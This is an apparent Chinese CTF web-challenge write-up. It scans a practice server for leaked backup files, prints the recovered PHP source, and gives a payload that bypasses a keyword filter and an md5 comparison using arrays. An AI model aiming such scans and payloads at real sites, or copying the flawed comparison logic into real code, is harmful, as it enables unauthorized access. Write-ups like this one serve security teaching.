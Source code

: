 <br />

# 十九. 备份是个好习惯
[参考](https://blog.csdn.net/xuchen16/article/details/82756559)


按照题目的意思是备份代码泄露, 网上说御剑可以, 跑了一下没有得出结果. 最后采用一航的源码泄露工具, [工具地址](https://coding.net/u/yihangwang/p/SourceLeakHacker/git?public=true)

执行:
```
$ python SourceLeakHackerForLinux.py http://123.206.87.240:8002/web16/
```

返回:
```
 [ 200 ]  Checking : http://123.206.87.240:8002/web16/index.php
HTTPConnectionPool(host='123.206.87.240', port=8002): Max retries exceeded with url: /web16/www.zip~1~ (Caused by ConnectTimeoutError(<urllib3.connection.HTTPConnection object at 0x7f8fb14c08d0>, 'Connection to 123.206.87.240 timed out. (connect timeout=5)'))
 [ 200 ]  Checking : http://123.206.87.240:8002/web16/index.php.bak
```

访问: `http://123.206.87.240:8002/web16/index.php.bak`

打开该代码文件:
```php
<?php
/**
 * Created by PhpStorm.
 * User: Norse
 * Date: 2017/8/6
 * Time: 20:22
*/

include_once "flag.php";  //引入flag.php文件代码
ini_set("display_errors", 0);  //关闭php错误提示
$str = strstr($_SERVER['REQUEST_URI'], '?');  //strstr获得URL从'?'往后(包括'?')的字符串
$str = substr($str,1); //去掉'?'
$str = str_replace('key','',$str);  //把字符串中的'key'替换为空, 可以使用kkeyey绕过
parse_str($str);  //parse_str把字符串解析到变量中, 例如parse_str('key1=a&key2=b');与$a=a;$b=b;的效果是一样的
echo md5($key1);

echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){  //需要得到key1,key2不相等而二者md5相等, 可以采用php弱类型比较弱过
    echo $flag."取得flag";
}
?>
```

## 两种方法绕过
### 方法1
`md5()`函数无法处理数组, 如果传入的为数组, 会返回NULL, 所以两个数组经过加密后得到的都是NULL, 也就是相等的.
```
payload: ?kkeyey1[]=1&kkeyey2[]=2
```
 